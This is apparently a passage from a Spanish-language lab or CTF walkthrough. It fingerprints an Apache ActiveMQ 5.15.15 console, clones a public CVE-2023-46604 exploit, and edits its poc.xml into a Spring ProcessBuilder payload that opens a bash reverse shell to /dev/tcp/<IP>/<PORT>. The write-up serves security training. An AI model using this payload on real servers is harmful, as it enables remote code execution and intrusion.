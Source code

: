 Vemos que es un tipo de software, por lo que veremos que version es y si tuviera algun exploit.

```shell
whatweb http://<IP>:8161/
```

Info:

```
http://172.17.0.2:8161/ [401 Unauthorized] Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.39.v20210325)], IP[172.17.0.2], Jetty[9.4.39.v20210325], PoweredBy[Jetty://], Title[Error 401 Unauthorized], WWW-Authenticate[ActiveMQRealm][basic]
```

Vemos que es un `Software` llamado `Jetty` con la version `9.4.39.v20210325` y si buscamos algun exploit.

Pero no funciona con `Jetty` asi que vamos a irnos al siguiente directorio:

```
URL = http://<IP>:8161/admin/
```

Y veremos que la version del `ActiveMQ` es la `5.15.15` por lo que vamos a buscar exploits asociados con este `Software` y esta version.

## Privileges Escalation

Encontramos el siguiente exploit:

URL = [ActiveMQ CVE-2023-46604](https://github.com/evkl1d/CVE-2023-46604)

Nos clonaremos el repositorio de la siguiente forma:

```shell
git clone https://github.com/evkl1d/CVE-2023-46604.git
cd CVE-2023-46604/
```

En una terminal haremos lo siguiente:

```shell
nano poc.xml

#Dentro del nano
#Cambiaremos las siguiente lienas a nuestras necesidades
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/<IP>/<PORT> 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
#Cambiamos donde pone <IP> y <PORT> a nuestras necesidades
```

